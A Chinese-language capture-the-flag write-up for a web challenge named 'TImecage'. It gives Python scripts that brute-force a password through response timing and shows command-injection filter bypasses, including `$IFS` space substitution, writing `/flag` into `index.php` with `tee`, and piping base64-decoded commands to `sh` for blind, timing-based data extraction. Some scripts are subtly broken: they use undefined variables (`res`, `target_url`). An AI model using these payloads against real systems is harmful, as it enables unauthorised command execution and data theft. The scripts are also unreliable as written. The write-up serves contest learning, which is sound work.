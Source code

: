 # TImecage题解
## 考点
- RCE的一些绕过

## 分析与题解
### 第一关
先分析源码，可以确定当date(‘s’)==0时，随机数就是114，也就可以拿到一个线索：
![alt text](images/image1.png)

搞个python脚本：
```python
import time
import re
import requests

url = "http://challenge.wucup.cn:21113/?input=114"
while True:
    # 防止请求过快
    time.sleep(0.5)
    r = requests.get(url)
    match = re.findall("The next challenge", res.text)
    if len(match)>1:
        print(r.text)
        break
```
### 第二关
获得路径为`Trapping2147483647.php`，然后得到如下源码，逻辑是先检查密码长度，如果长度一直则检查密码内容，因此需要爆破两个，即长度和内容，并且提示只有数字，这就好办了，爆就完事了：
![alt text](images/image2.png)

脚本如下：
```python
import re
import time
import requests

url = "http://challenge.wucup.cn:21113/Trapping2147483647.php"
length = 0
password = ""

# 确定密码长度
for length in range(1, 128):
    response = requests.post(url, data={"pass": "a" * length})
    if "Length" not in response.text:
        print(length)
        break

# 爆破密码
for position in range(1, 9):
    for num in range(10):
        start_time = time.time()
        response = requests.post(target_url, data={"pass": password + str(num) + "0" * (length - position - 1)})
        end_time = time.time()
        if (end_time - start_time) > position:
            password += str(num)
            break
    print("Current password: ", password)

# 提交
resp = requests.post(target_url, data={"pass": password})
print(resp.text)
```
得到密码`56983215`，并拿到`EscapeEsc@p3Escape.php`。

### 第三关
得到如下源码，一看就是rce，但是过滤了{}[]()&<>空字符\，空格也不能包含，并且没有回显，想一下绕过：
![alt text](images/image3.png)

#### 自己的wp
空格的话可以利用$IFS来绕，回显问题可以将我们cat 的内容写到已有的文件中，然后再访问查看，即利用index.php来回显:
```
cmd=cat$IFS$5/flag|tee$IFS$5index.php
```
再访问`index.php`：
![alt text](images/image4.png)

#### 官方wp
可以通过`head -c n /flag | tail -c 1`获取flag的第n个字符（head 获取前 n 个字符，作为`tail -c 1`的输入，从而获取到第n个字符）

然后我们爆破这个字符，如果正确，那么就执⾏ `sleep(1)`

上述过程⽤ shell 命令表示就是`[$(head -c n /flag | tail -c 1)=爆破的字符] && sleep 2 `,通过这个命令，我们就能通过响应时间的差异，逐步得到 flag 的所有内容。

对于这个过滤，空格直接用`$IFS$9`绕过，其他特殊符号可以⽤ base64 编码绕过，也就是`echo base64 编码后的命令 | base64 -d | sh`，脚本如下：
![alt text](images/image5.png)
